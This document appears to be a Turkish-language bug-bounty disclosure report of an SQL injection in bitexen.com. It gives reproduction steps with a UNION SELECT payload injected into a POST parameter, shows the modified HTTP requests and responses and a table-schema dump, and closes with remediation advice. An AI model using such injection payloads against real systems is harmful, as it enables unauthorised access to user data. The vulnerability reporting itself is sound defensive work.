 # SQL Injection - bitexen.com

## Araştırmacı bilgileri

Merhaba, adım Zeynep. Bana zeynep@example.com adresinden ulaşabilirsiniz. HackerOne kullanıcı adım "zeynep".

## Bulgu Tanımı ve Özet

Web uygulaması üzerinden giden isteği Burp Suite ile değiştirerek veritabanında SQL komutları çalıştırabildim. Veritabanındaki tabloların şemalarını kontrol ettim ama hassas veri bulunabileceği düşüncesiyle verilere erişmedim. Tablo yapılarında kullanıcı maili ve telefonu gibi alanlar vardı.

## Etkilenen URL / Uygulama

- Domain bitexen.com

## Risk Kategorisi

- Risk: Kritik
- Risk sebebi: Hassas kullanıcı bilgilerinin (kimlik verisi, adres, telefon) açığa çıkması
- CVSS v3 skoru: 9.8 CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

## Tekrarlama Adımları / PoC

- Bitexen hesabına giriş yapılıp kullanıcı bilgileri değiştirilir ve 'Kaydet' butonuna basılır.
- İstek Burp veya diğer proxy araçlarıyla durdurulur.
- Giden POST verisindeki `username=example` içine `' UNION SELECT sum(columnname ) from tablename --` yerleştirilir.
- İsteğin son hali `username=example' UNION SELECT sum(columnname ) from tablename --` olacak şekilde gönderilir.

- Orijinal İstek

        POST https://bitexen.com/uygulama/path HTTP/1.1
        User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
        Host: bitexen.com
        Content-Type: text/xml; charset=utf-8
        X-BTXN-VDP: example@example.com
        .
        .
        .

        data

- Orijinal Cevap

        HTTP/1.1 200 OK
        Server: nginx
        Content-Type: text/html; charset=utf-8
        Vary: Accept-Encoding
        .
        .
        .

        OK

- Değiştirilen İstek

        POST https://bitexen.com/uygulama/path HTTP/1.1
        User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
        Host: bitexen.com
        Content-Type: text/xml; charset=utf-8
        X-BTXN-VDP: example@example.com
        .
        .
        .

        data' UNION SELECT sum(columnname ) from tablename --

- Değiştirilen Cevap

        HTTP/1.1 200 OK
        Server: nginx
        Content-Type: text/html; charset=utf-8
        Vary: Accept-Encoding
        .
        .
        .

        5

- Aynı istek Burp Repeater ile bu sefer `DESCRIBE bitexen_db.users` komutu girilerek gönderilir. Veritabanına ve tablolara erişim yapılabildiği görülmektedir.

        +-------+--------------+------+-----+---------+-------+
        | Field | Type         | Null | Key | Default | Extra |
        +-------+--------------+------+-----+---------+-------+
        | id    | int(11)      | YES  | MUL | NULL    |       |
        | Name  | varchar(100) | YES  | MUL | NULL    |       |
        +-------+--------------+------+-----+---------+-------+
        2 rows in set (0.05 sec)

Ekran görüntüleri:

- Görüntü 1
- Görüntü 2

## Etki

Tüm kullanıcıların e-posta adreslerine ve telefon numaralarına erişilebiliyor. Parolalar bulunmadığı için hesap erişimi mümkün değil ancak elde edilebilecek veriler kritik önemde. Ayrıca, saldırgan tarafından veriler düzenlenebilir veya silinebilir.

## Çözüm Önerisi

Web uygulamasından yapılan istekler SQL komutuna dönüştürülmeden önce temizlenmeli ve tehlikeli istekler reddedilmeli. Ayrıca erişim sağlayan SQL servisinin yetkileri limitlenmeli.

Kaynaklar:

- <https://www.w3schools.com/sql/sql_injection.asp>
- <https://portswigger.net/web-security/sql-injection>
- <https://owasp.org/www-community/attacks/SQL_Injection>
- <https://www.acunetix.com/websitesecurity/sql-injection/>
